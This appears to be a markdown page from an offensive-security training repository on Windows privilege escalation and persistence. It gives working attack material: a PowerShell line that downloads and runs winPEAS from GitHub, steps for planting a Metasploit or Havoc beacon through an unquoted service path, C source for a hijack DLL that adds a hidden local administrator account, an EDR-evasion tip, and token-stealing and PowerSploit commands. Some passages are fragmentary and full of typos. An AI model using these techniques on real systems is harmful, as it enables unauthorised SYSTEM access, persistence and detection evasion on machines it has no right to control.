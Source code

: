 # Privilege Escalation / Persistence

In order to escalate privilege from a regular user to a higher level account (Administrator/System Authority), you need either a `misconfiguration` (typically permission issues on services, scheduled tasks etc...) or an `exploit` (Remote/Rogue/Sweet/Rotten/Juicy/God Potato etc..) - a properly patched and configured system will provide challenges to escalte privileges from a standard user to a administrator user. 

That being said, there are numerous techniques to obtain hashes/passwords, that don't requite administrator privileges - such as `kerberoasting`, `ntlm relaying` and `password spraying`.

Running as a regular unprivileged user:

![image](./images/priv_whoamimed.jpg)

![image](./images/priv_med.jpg)

Runnins as an administrator:

![image](./images/priv_whoami.jpg)

# What is SeDebugPrivilege?

SeDebugPrivilege is a special privilege in Windows that allows a user or process to debug other processes, even those running under different security contexts or with higher privileges, such as system services. This privilege is part of Windows' security model, which uses privileges to control what actions a user or process can perform on the system.

## Key Points About SeDebugPrivilege

### Purpose:
- By default, users can only debug processes they own (i.e., processes they started or are running under their user account).
- SeDebugPrivilege extends this capability, allowing a process or user with this privilege to:
  - Attach a debugger to,
  - Inspect, or
  - Modify any process on the system, including those running as other users or as the SYSTEM account (a highly privileged account in Windows).

### How It Works:
- The privilege is managed through Windows security policies and can be assigned or revoked by an administrator.
- It is typically enabled for members of the Administrators group by default on many Windows systems, but this can be changed via Group Policy Objects (GPOs) or local security policies.
- To use SeDebugPrivilege, a process must explicitly request it using Windows API functions like `LookupPrivilegeValue` and `AdjustTokenPrivileges`. This involves:
  - Obtaining a handle to the process token.
  - Enabling the privilege.

> **Default Settings**: On many Windows versions (e.g., Windows 10), it’s assigned to the `Administrators group by default`, which can be risky if not properly managed. Even with SeDebugPrivilege, some actions (like injecting into a SYSTEM process) may still fail if other security mechanisms, such as ***User Account Control (UAC)*** or additional restrictions, are in place.
> 
> **Note**: Administrators can control SeDebugPrivilege through the Local Security Policy editor (secpol.msc) or Group Policy Management Editor. It is listed under "User Rights Assignment" as "Debug programs". To enable or disable it, an administrator can modify the security policy to add or remove user groups (e.g., Administrators) from having this privilege.

Escalating from unprivileged user to ***SYSTEM*** in 3 steps:

![image](./images/priv_chain.jpg)

# UNQUOTED SERVICE PATH

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\service.exe
- create pingservice in vs2019

-> C:\MyPrograms\`vulnerable.exe`  arguments `Service\service.exe`

By placing a malicious service exe in c:\MyPrograms\ named `vulnerable.exe`, we'll escalate privileges wo NT SYSTEM AUHTORITY (if the service is running with those privileges)

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc qc VulnService
sc start VulnService
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```



Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)



# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

### STEALING TOKENS
```
TokenPlayer-v0.8.exe --impersonate --pid 4536 --spawn
```

needs sedebugprivilege!
Admin in high integrity (UAC Bypass)

----
accesschk.exe -p -f -v 3356
---
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1

POWERSPLOIT

```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd .\PowerSploit\Privesc\
import-module .\Privesc.psd1
get-command -module Privesc
Get-ProcessTokenPrivilege
```

login as student
powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs